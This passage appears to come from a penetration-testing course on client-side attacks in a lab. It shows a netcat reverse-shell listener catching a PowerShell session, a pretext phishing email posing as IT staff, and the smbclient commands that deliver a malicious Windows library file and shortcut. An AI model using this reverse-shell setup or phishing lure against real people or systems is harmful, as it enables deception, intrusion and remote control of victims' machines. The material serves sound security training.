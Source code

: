 ```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.194] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

> Listing 19 - Successful reverse shell connection via our Shortcut file

To conclude this section, let's obtain a reverse shell from the *HR137* machine at **192.168.50.195**. For this example, we'll provide the Windows library file we created to a simulated victim with a pretext. Our goal is to convince the victim to double-click the shortcut after embedding the WebDAV share via the prepared Windows library file.

The pretext is an important aspect of this client-side attack. In this case we could tell the target that we are a new member of the IT team, and we need to configure all client systems for the new management platform. We'll also tell them that we've included a user-friendly configuration program. An example email for use in a real assessment is shown below.

```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```

> Listing 20 - Example email content

Now, let's copy **automatic\_configuration.lnk** and **config.Library-ms** to our WebDAV directory on our Kali machine. For convenience, we can use the **config** library file to copy the files into the directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the **\\\\192.168.50.195\\share** SMB share to simulate the delivery step.

Next, we'll start the Python3 web server on port 8000 to serve **powercat.ps1**, WsgiDAV for our WebDAV share **/home/kali/webdav**, and a Netcat listener on port 4444.

To upload the library file to the SMB share, we'll use [**smbclient**](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) with the **\-c** parameter to specify the **put config.Library-ms** command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created **test.txt** file from the WebDAV share.

```
kali@kali:~$ cd webdav

kali@kali:~/webdav$ cd webdav

kali@kali:~/webdav$ rm test.txt

kali@kali:~/webdav$ smbclient //192.168.50.195/share -c 'put config.Library-ms'
Enter WORKGROUP\kali's password: 
putting file config.Library-ms as \config.Library-ms (1.8 kb/s) (average 1.8 kb/s)
```
